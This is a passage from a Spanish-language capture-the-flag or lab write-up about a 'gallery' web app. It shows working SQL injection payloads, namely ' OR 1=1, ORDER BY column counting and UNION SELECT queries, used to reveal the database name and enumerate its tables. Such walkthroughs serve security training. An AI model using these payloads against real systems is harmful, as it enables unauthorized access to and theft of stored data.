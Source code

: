 Vemos varios campos en los cuales podemos probar a ver si hubiera algun otro parametro vulnerable para segurarnos, vamos a ir probando en todos combinaciones basicas para poder mostrar la informacion de las `DDBBs` u otro tipo de inyecciones.

Si metemos lo mas basico de nuevo `' OR 1=1-- -` en los 2 primeros `campos` del formulario, y le damos a enviar, veremos esto:

```
Fatal error: Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1 in /var/www/html/dashboard.php:16 Stack trace: #0 /var/www/html/dashboard.php(16): mysqli_query() #1 {main} thrown in /var/www/html/dashboard.php on line 16
```

Vemos que efectivamente es vulnerable a un `SQLi` y nos esta mostrando informacion de lo que ha petado a nivel de `DDBB`.

## Escalate user sam

Vamos a intentar descubrir cuantas columnas tiene la `DDBB` para poder realizar dicho `SQLi`.

```sql
' ORDER BY 5-- -
```

Si eso lo ponemos en la parte de:

<figure><img src="../../.gitbook/assets/image (373).png" alt=""><figcaption></figcaption></figure>

Veremos que no nos da un error, pero si probamos el `6` ya si, por lo que ya sabemos que tiene `5` columnas y ahora podemos pasar a ver si funciona la siguiente `SQLi` de esta forma:

```sql
' UNION SELECT null, database(), null, null, null-- -
```

Si hacemos esto, veremos que nos funciona, ya que aparece otro recuadro mas en la pagina mostrando esto:

```
gallery_db
```

Por lo que sabemos que la segunda opcion del `SELECT` es vulnerable, por lo que vamos a intentar enumerar las tablas que hay dentro de la `DDBB` llamada `gallery_db`.

```sql
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema=database()-- -
```
